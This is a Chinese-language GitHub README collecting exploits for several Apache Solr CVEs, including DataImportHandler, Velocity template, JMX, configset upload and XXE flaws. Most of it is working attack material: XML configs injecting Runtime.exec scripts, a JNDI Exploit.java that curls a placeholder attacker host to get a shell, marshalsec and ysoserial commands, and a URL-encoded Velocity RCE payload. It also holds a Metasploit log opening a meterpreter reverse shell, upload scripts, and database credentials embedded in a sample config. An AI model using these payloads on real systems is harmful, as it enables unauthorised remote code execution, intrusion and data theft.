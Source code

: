 # Apache-Solr-Vulnerability
Apache Solr Some Exploits  🌟

[CVE-2019-0193](https://github.com/fa1c0n1/Apache-Solr-RCE#cve-2019-0193)

[CVE-2019-0192](https://github.com/fa1c0n1/Apache-Solr-RCE#cve-2019-0192)

[CVE-2019-17558](https://github.com/fa1c0n1/Apache-Solr-RCE#cve-2019-17558)

[CVE-2017-12629](https://github.com/fa1c0n1/Apache-Solr-RCE#cve-2017-12629)

[CVE-2019-12409](https://github.com/fa1c0n1/Apache-Solr-RCE#cve-2019-12409)

[CVE-2020-13957](https://github.com/fa1c0n1/Apache-Solr-RCE#cve-2020-13957)

[CVE-2018-8026](https://github.com/fa1c0n1/Apache-Solr-RCE#cve-2018-8026)

## CVE-2019-0193
Apache Solr DataImportHandler RCE

### 影响版本
Apache Solr < 8.2.0 并且开启了DataImportHandler模块(默认情况下该模块不被启用)

### 漏洞利用

1.首先判读是否solr不需认证直接可访问后台（大多数均可访问）

2.判断是否存在collections

![1](pic/1.png)

3.判断collections是否可以使用dataimport功能

![2](pic/2.png)

4.debug模式修改configuration

原：

```xml
<dataConfig>
  <dataSource  type="JdbcDataSource"
               driver="com.microsoft.sqlserver.jdbc.SQLServerDriver"
               url="jdbc:sqlserver://SqlServer;databaseName=TrainUpCore"
               user="pid.trainup"
               password="S@cram3nt0"
               readOnly="true"
              />


  <document name="TrainUpDoc">
  <entity name="Lo" query="select newid() id, * from CatalogSearch.Categories_LiveTrainingWithoutLocation order by ItemTitle">
                          <field column="ItemTitle" name="ItemTitle"/>
                          <field column="ItemCourseId" name="ItemCourseId"/>
                          <field column="ItemDescription" name="ItemDescription"/>
                          <field column="Price" name="ItemPrice"/>
                          <field column="ItemDurationType" name="ItemDurationType"/>
                          <field column="ItemDurationValue" name="ItemDurationValue"/>
                          <field column="typeItemCode" name="typeItemCode"/>
                          <field column="ProviderWeight" name="ProviderWeight"/>
                          <field column="ItemCatId" name="ItemCatId"/>
                          <field column="PublishedDate" name="PublishedDate"/>
                          <field column="ItemImageUrl" name="ItemImageUrl"/>
                          <field column="ItemTrainingRating" name="ItemTrainingRating"/>
                          <field column="#Row" name="#Row"/>
                          <field column="ItemCatImageUrl" name="ItemCatImageUrl"/>
                          <field column="ItemEventsno" name="ItemEventsno"/>
                          <field column="CourseWeight" name="CourseWeight"/>
                          <field column="CategoryRankScore" name="CategoryRankScore"/>
                          
  </entity>
  </document>
</dataConfig>
```

[1] 无回显 直接执行命令修改：

​	（1）在entity中添加transformer="script:f1"，f1为函数名

​	（2）添加<script>内容

​	（3）execute with this configuration

```xml
<dataConfig>
  <dataSource  type="JdbcDataSource"
               driver="com.microsoft.sqlserver.jdbc.SQLServerDriver"
               url="jdbc:sqlserver://SqlServer;databaseName=TrainUpCore"
               user="pid.trainup"
               password="S@cram3nt0"
               readOnly="true"
              />
     <script><![CDATA[
        function f1(row){
        java.lang.Runtime.getRuntime().exec("powershell xxx");
        return row;
        }
    ]]></script>


  <document name="TrainUpDoc">
  <entity name="Lo" transformer="script:f1" query="select newid() id, * from CatalogSearch.Categories_LiveTrainingWithLocation order by ItemTitle">
                          <field column="ItemTitle" name="ItemTitle"/>
                          <field column="ItemCourseId" name="ItemCourseId"/>
                          <field column="ItemDescription" name="ItemDescription"/>
                          <field column="Price" name="ItemPrice"/>
                          <field column="ItemDurationType" name="ItemDurationType"/>
                          <field column="ItemDurationValue" name="ItemDurationValue"/>
                          <field column="typeItemCode" name="typeItemCode"/>
                          <field column="ProviderWeight" name="ProviderWeight"/>
                          <field column="ItemCatId" name="ItemCatId"/>
                          <field column="PublishedDate" name="PublishedDate"/>
                          <field column="ItemImageUrl" name="ItemImageUrl"/>
                          <field column="ItemTrainingRating" name="ItemTrainingRating"/>
                          <field column="#Row" name="#Row"/>
                          <field column="ItemCatImageUrl" name="ItemCatImageUrl"/>
                          <field column="ItemEventsno" name="ItemEventsno"/>
                          <field column="CityItemEventsno" name="CityItemEventsno"/>
                          <field column="StartDate" name="StartDate"/>
                          <field column="StartTime" name="StartTime"/>
                          <field column="TimeZone" name="TimeZone"/>
                          <field column="MarketCityID" name="MarketCityID"/>
                          <field column="ItemCity" name="ItemCity"/>
                          <field column="CourseWeight" name="CourseWeight"/>
                          <field column="CategoryRankScore" name="CategoryRankScore"/>
  </entity>
  </document>
</dataConfig>
```

![3](pic/3.png)



[2] 有回显 直接执行命令修改：

​	（1）在entity中添加transformer="script:f1"，f1为函数名

​	（2）添加<script>内容，将执行回显输出到field的参数重，如id、ItemDescription，若不行则需结合managed-schema配置输出

​	（3）execute with this configuration

```xml
<dataConfig>
  <dataSource  type="JdbcDataSource"
               driver="com.microsoft.sqlserver.jdbc.SQLServerDriver"
               url="jdbc:sqlserver://SqlServer;databaseName=TrainUpCore"
               user="pid.trainup"
               password="S@cram3nt0"
               readOnly="true"
              />
	<script><![CDATA[
        function f1(row){
        row.put("id",new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("whoami").getInputStream())).readLine());
        return row;
        }
    ]]></script>


  <document name="TrainUpDoc">
  <entity name="Lo" transformer="script:f1" query="select newid() id, * from CatalogSearch.Categories_LiveTrainingWithLocation order by ItemTitle">
                          <field column="ItemCourseId" name="id"/>
                          <field column="ItemDescription" name="ItemDescription"/>
                          <field column="Price" name="ItemPrice"/>
                          <field column="ItemDurationType" name="ItemDurationType"/>
                          <field column="ItemDurationValue" name="ItemDurationValue"/>
                          <field column="typeItemCode" name="typeItemCode"/>
                          <field column="ProviderWeight" name="ProviderWeight"/>
                          <field column="ItemCatId" name="ItemCatId"/>
                          <field column="PublishedDate" name="PublishedDate"/>
                          <field column="ItemImageUrl" name="ItemImageUrl"/>
                          <field column="ItemTrainingRating" name="ItemTrainingRating"/>
                          <field column="#Row" name="#Row"/>
                          <field column="ItemCatImageUrl" name="ItemCatImageUrl"/>
                          <field column="ItemEventsno" name="ItemEventsno"/>
                          <field column="CityItemEventsno" name="CityItemEventsno"/>
                          <field column="StartDate" name="StartDate"/>
                          <field column="StartTime" name="StartTime"/>
                          <field column="TimeZone" name="TimeZone"/>
                          <field column="MarketCityID" name="MarketCityID"/>
                          <field column="ItemCity" name="ItemCity"/>
                          <field column="CourseWeight" name="CourseWeight"/>
                          <field column="CategoryRankScore" name="CategoryRankScore"/>
  </entity>
  </document>
</dataConfig>
```

![4](pic/4.png)

[3] JNDI+LDAP（无需目标的CLASSPATH存在数据库驱动）：

​	（1）修改configuration内容

```xml
<dataConfig>
	<dataSource type="JdbcDataSource"
		jndiName="ldap://xxx.xxx.xxx.xxx:1389/Exploit"/>
	<document>
		<entity name="test">
		</entity>
	</document>	
</dataConfig>
```

​	（2）hackserver

Exploit.java

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.*;
import java.util.Hashtable;

public class Exploit implements ObjectFactory {

    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
        try {
            Runtime.getRuntime().exec("curl http://xxx.xxx.xxx.xxx:1212/getshell");
        } catch (IOException e) {
            e.printStackTrace();
        }
        return null;
    }
}
```

JDK 高版本会限制远程codebase 加载，期待1.8以下

```
javac --release 7 Exploit.java

java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndiDAPRefServer http://xxx.xxx.xxx.xxx:8888/#Exploit 1389

python3 -m http.server 8888
```

​	（3）execute with this configuration

![5](pic/5.png)

### 工具利用

https://github.com/Rapidsafeguard/Solr-RCE-CVE-2019-0192/blob/master/solr_RCE.py
https://github.com/weTomorrow/solr_poc/blob/master/solr_poc.py

## CVE-2019-0192

### 影响版本

Apache Solr 5.0.0-5.5.5 版本

Apache Solr 6.0.0-6.6.5 版本

### 漏洞利用

configAPI主要功能是检索或修改配置。 GET负责检索，POST负责执行命令。通过传入set-property属性，构造恶意的数据，传入指向恶意的rmi服务器的链接，覆盖之前服务器的原设置，使得目标服务器与攻击者的恶意rmi服务器相连，攻击者可以使用ysoserial工具，通过rmi服务器向远端目标服务器发送命令，并在目标服务器上执行，实现远程命令执行

1.首先判读存在cores节点

```
http://ip:port/solr/admin/cores?wt=json
```

![7](pic/7.png)

```
http://ip:port/solr/name[0]/config
```

![8](pic/8.png)

2.server通过ysoserial部署RMI server

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1234 Jdk7u21 "cmd"
```

![9](pic/9.png)

注意: 你会看到返回中出现500错误

如果错误中包含: “Non-annotation type in annotation serial stream” 说明 Apache Solr 的Java版本 > JRE 7u25，则PoC执行不成功。

如果你看到错误中包含: “undeclared checked exception; nested exception is”，则PoC执行成功.

### 工具利用

https://github.com/mpgn/CVE-2019-0192/blob/master/CVE-2019-0192.py

## CVE-2019-17558

### 影响版本

Apache Solr 5.x到8.2.0版本

### 漏洞利用
```
http://ip:port/solr/+core_name+/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

![6](pic/6.png)

### 工具利用

https://github.com/wyzxxz/Apache_Solr_RCE_via_Velocity_template

## CVE-2017-12629

### 影响版本

Apache Solr 5.5.0到7.0.1版本

### 漏洞利用
此次7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE），二者可以连接成利用链，编号均为CVE-2017-12629。

https://paper.seebug.org/425/

## CVE-2019-12409

### 影响版本
APACHE SOLR 8.1.1/8.2.0 CONFIGURATION FILE SOLR.IN.SH PRIVILEGE ESCALATION

### 漏洞利用
Apache Solr的8.1.1和8.2.0发行版中的默认配置文件solr.in.sh,在其配置文件中ENABLE_REMOTE_JMX_OPTS字段默认配置不安全.如果使用受影响版本中的默认配置,那么将启用JMX监视服务并将对公网监听一个18983的RMI端口,且无需进行任何身份验证,配合JMX RMI将会导致远程代码执行.

使用Metasploit 
```
msf5 > use multi/misc/java_jmx_server
msf5 exploit(multi/misc/java_jmx_server) > show options

Module options (exploit/multi/misc/java_jmx_server):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   JMXRMI        jmxrmi           yes       The name where the JMX RMI interface is bound
   JMX_PASSWORD                   no        The password to interact with an authenticated JMX endpoint
   JMX_ROLE                       no        The role to interact with an authenticated JMX endpoint
   RHOSTS                         yes       The target address range or CIDR identifier
   RPORT                          yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT       8080             yes       The local port to listen on.
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit (default is random)


Exploit target:

   Id  Name
   --  ----
   0   Generic (Java Payload)


msf5 exploit(multi/misc/java_jmx_server) > set RHOSTS a.a.a.a
RHOSTS => a.a.a.a
msf5 exploit(multi/misc/java_jmx_server) > set RPORT 18983
RPORT => 18983
msf5 exploit(multi/misc/java_jmx_server) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf5 exploit(multi/misc/java_jmx_server) > show options

Module options (exploit/multi/misc/java_jmx_server):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   JMXRMI        jmxrmi           yes       The name where the JMX RMI interface is bound
   JMX_PASSWORD                   no        The password to interact with an authenticated JMX endpoint
   JMX_ROLE                       no        The role to interact with an authenticated JMX endpoint
   RHOSTS        a.a.a.a     yes       The target address range or CIDR identifier
   RPORT         18983            yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT       8080             yes       The local port to listen on.
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit (default is random)


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Generic (Java Payload)


msf5 exploit(multi/misc/java_jmx_server) > set LHOST b.b.b.b
LHOST => b.b.b.b
msf5 exploit(multi/misc/java_jmx_server) > run
[*] Started reverse TCP handler on b.b.b.b:4444
[*] a.a.a.a:18983 - Using URL: http://b.b.b.b:8080/OcbYS8uaTPDH
[*] a.a.a.a:18983 - Sending RMI Header...
[*] a.a.a.a:18983 - Discovering the JMXRMI endpoint...
[+] a.a.a.a:18983 - JMXRMI endpoint on a.a.a.a:18983
[*] a.a.a.a:18983 - Proceeding with handshake...
[+] a.a.a.a:18983 - Handshake with JMX MBean server on a.a.a.a:18983
[*] a.a.a.a:18983 - Loading payload...
[*] a.a.a.a:18983 - Replied to request for mlet
[*] a.a.a.a:18983 - Replied to request for payload JAR
[*] a.a.a.a:18983 - Executing payload...
[*] a.a.a.a:18983 - Replied to request for payload JAR
[*] Sending stage (53867 bytes) to a.a.a.a
[*] Meterpreter session 1 opened (a.a.a.a:4444 -> b.b.b.b:46582) at 2019-11-21 15:24:53 +0000

meterpreter > 
```

### 工具利用
https://github.com/siberas/sjet

## CVE-2020-13957

### 影响版本

Apache Solr 6.6.0 - 6.6.5

Apache Solr 7.0.0 - 7.7.3

Apache Solr 8.0.0 - 8.6.2

### 漏洞利用

Apache Solr Configset Api上传功能存在未授权漏洞。攻击者可以上传含有恶意配置的solrconfig.xml从而触发CVE-2019-17558进行命令执行（SolrCloud模式才可利用）

1.首先构造含有恶意配置的myconfigset.zip

![10](pic/10.png)

2.上传myconfigset.zip进入ZooKeeper

```
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @myconfigset.zip "http://localhost:8983/solr/admin/configs?action=UPLOAD&name=test3myConfigSet"
```

![11](pic/11.png)

3.从Zookeeper中选择恶意的solrconfig.xml创建新的Collection

```
curl -v "http://localhost:8983/solr/admin/collections?action=CREATE&name=newCollection3&numShards=2&replicationFactor=1&wt=xml&collection.configName=test3myConfigSet"
```

![12](pic/12.png)

4.EXP命令执行

```
curl -v "http://127.0.0.1:8983/solr/newCollection3/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"
```

![13](pic/13.png)

## CVE-2018-8026

### 影响版本

Apache Solr >= 6.0.0, < 6.6.5

Apache Solr >= 7.0.0, < 7.4.0

### 漏洞利用
这次的XXE漏洞依赖于SolrCloud API，影响到SolrCloud分布式系统。而SolrCloud需要用到zookeeper

```
import requests

upload_url = "http://127.0.0.1:8983/solr/admin/configs?action=UPLOAD&name=evilconfig"
files = open("evil.zip", "rb")
print(requests.post(upload_url, data=files).text)

create_url = "http://127.0.0.1:8983/solr/admin/collections?action=CREATE&name=eviltest&numShards=1&collection.configName=evilconfig"
print(requests.get(create_url).text)
```

https://xz.aliyun.com/t/2448
